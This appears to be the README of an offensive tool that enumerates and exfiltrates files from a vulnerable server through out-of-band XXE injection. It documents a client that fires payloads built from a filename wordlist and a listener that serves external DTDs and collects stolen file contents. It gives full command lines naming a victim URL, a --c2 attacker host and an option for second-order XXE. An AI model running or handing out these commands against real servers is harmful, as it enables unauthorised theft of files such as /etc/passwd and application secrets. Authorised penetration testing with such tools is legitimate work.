 # XXE Enum
Enumerate and exfiltrate files via out of band XXE, for situations where resolved entity is not displayed in the response, and directory listing is not available.

client.js would take a list of filenames, try exfiltrate the content of those files via XXE from your main target server, and server.js would serve external DTDs and receive the exfiltrated file content.

If other servers are parsing XML stored in your main target at a later time, you could also configure your server to serve a different DTD to conduct a different action or to track which server that "/etc/passwd" was from.

## Usage
**server.js**

```
$ node server.js -h

Options
        -h						Print this message

        -p <port>		The listening port, e.g. -p 1337, default 8800
        --b64			Use this option if expecting file content to be passed as base64
        --target <target_ip>	Use this option if you want to send different dtds to different servers, 
        e.g. send "send.dtd" only to your main target (target_ip), and send "send-alt.dtd" to any potential second order XXEs
        --https			Use this option if you want to start https server
        --key <key file>	The key file used to start https server, e.g. --key /root/key.pem
        --cert <cert file>	The cert file used to start https server, e.g --cert /root/cert.crt

// out of the box
$ node server.js

// use a different port
$ node server.js -p 1337

// start a https server
$ node server.js -p 1337 --https --key /root/key.pem --cert /root/cert.crt

// serve send.dtd only to 192.168.1.100, while send send-alt.dtd to all other IPs, 
// if they are requesting the external DTD, i.e. vulnerable to XXE
$ node server.js --target 192.168.1.100
```

**client.js**

```
$ node client.js -h

Options
        -h	Print this message

        -u <url>		(Required) the victim page, e.g. -u http://vulnerable.site:8080/page.php?a=1
        -w <wordlist>		(Required) the wordlist to load, e.g. -w /usr/share/wordlists/filenames.txt
        --c2 <url>		(Required) the server where server.js is run and waiting for incoming request 
        from victim, e.g. --c2 http://attacker.site:8090

        --proxy <proxy>		The http proxy to go through for all requests, e.g. --proxy http://127.0.0.1:8080
        --base <path>		The base path prefixed to all filenames, e.g. --base "/var/www", default "/"
        --php			Use this option if the server can handle php protocols, i.e. able to encode 
        the file content using base64
        -t <thread>		Indicate how many threads to run simultaneously, e.g. -t 15, default 5
        -v			Verbose output
        --headers <headers>	Additional request headers (besides content-type, content-length, and host) in JSON format, e.g. --headers '{"X-CSRF-Token": "awesome_token", "Cookie": "sid=secret_session; admin=1;"}'
        --body <xml>		The normal POST request body, e.g. --body "<subscribe><email>test@example.com</email><name>test</name></subscribe>", 
        default: <login><username>test</username><password>test</password></login>

// minimal
$ node client.js -u http://192.168.1.100/subscribe.php?redirect=1 \
-w /usr/share/wordlists/filenames.txt \
--c2 http://192.168.1.200:8800

// full blown
$ node client.js -u http://192.168.1.100/subscribe.php?redirect=1 \
-w /usr/share/wordlists/filenames.txt --c2 http://192.168.1.200:8800 \
--proxy http://127.0.0.1:8080 --base "/var/www" -t 15 --php -v \
--headers '{"Cookie": "sid=secret_session; admin=1;", "Referer": "http://192.168.1.100/index.php"}' \
--body "<subscribe><email>test@example.com</email><name>test</name></subscribe>"
```

## TODO
- https proxy not working. Only http proxy atm